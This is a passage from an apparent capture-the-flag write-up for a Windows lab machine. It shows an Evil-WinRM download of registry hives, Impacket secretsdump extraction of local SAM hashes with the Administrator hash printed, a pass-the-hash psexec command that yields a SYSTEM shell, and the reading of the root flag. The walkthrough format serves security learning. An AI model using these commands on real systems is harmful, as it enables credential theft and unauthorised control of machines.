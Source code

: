   ```shell
  Info: Download successful!
  *Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download SYSTEM

  Info: Downloading C:\Users\emily.oscars.CICADA\Documents\SYSTEM to SYSTEM

  Info: Download successful!
  ```

On my machine, use Impacket `secretsdump.py` to extract the local account hashes:

  ```shell
  secretsdump.py -sam SAM -system SYSTEM LOCAL
  Impacket v0.11.0 - Copyright 2023 Fortra

  [*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
  [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  [-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesnt have hash information

  ```

Pass-the-hash / remote service exec with Impacket `psexec.py`:

  ```shell
  psexec.py Administrator@10.129.231.149 -hashes ":2b87e7c93a3e8a0ea4a581937016f341"
  Impacket v0.11.0 - Copyright 2023 Fortra

  [*] Requesting shares on 10.129.231.149.....
  [*] Found writable share ADMIN$
  [*] Uploading file lDzxdAoT.exe
  [*] Opening SVCManager on 10.129.231.149.....
  [*] Creating service lfkC on 10.129.231.149.....
  [*] Starting service lfkC.....
  [!] Press help for extra shell commands
  Microsoft Windows [Version 10.0.20348.2700]
  (c) Microsoft Corporation. All rights reserved.

  C:\Windows\system32> 
  ```
From that shell I could read the root flag:
  ```text
  type C:\Users\Administrator\Desktop\root.txt
  b77facd8************************
  ```

## A little extra: 

Here is where i'll add some spicy extra details. 
